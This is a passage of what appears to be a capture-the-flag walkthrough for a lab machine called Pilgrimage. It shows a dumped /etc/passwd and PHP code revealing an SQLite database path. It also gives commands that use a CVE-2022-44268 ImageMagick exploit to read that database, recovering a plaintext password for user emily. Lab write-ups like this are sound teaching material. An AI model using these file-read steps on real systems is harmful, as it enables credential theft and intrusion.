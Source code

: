It gave us the following results, which are the contents of the /etc/passwd file:
```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```
When we examined the files we got from git_dumper, we found that the website is interacting with a db:
```shell
if(isset($_SESSION['user'])) {
        $db = new PDO('sqlite:/var/db/pilgrimage');
        $stmt = $db->prepare("INSERT INTO `images` (url,original,username) VALUES (?,?,?)");
        $stmt->execute(array($upload_path,$_FILES["toConvert"]["name"],$_SESSION['user']));
      }
```
# Foothold
# Getting the password of emily with CVE-2022-44268
We will use the exploit like we did before to get the contents of /var/db/pilgrimage:
```shell
# Create output.png
python3 CVE-2022-44268.py /var/db/pilgrimage

# Choose the file and click Shrink
http://pilgrimage.htb

# Get the file with wget
wget http://pilgrimage.htb/shrunk/672cfac4ba42c.png

# Inspect the file to get the data for CyberChef
identify -verbose 672cfac4ba42c.png

# Convert it with CyberChef From Hex
https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')

# In the results after converting it with CyberChef, we can find the following credentials for emily
emily:abigchonkyboi123
```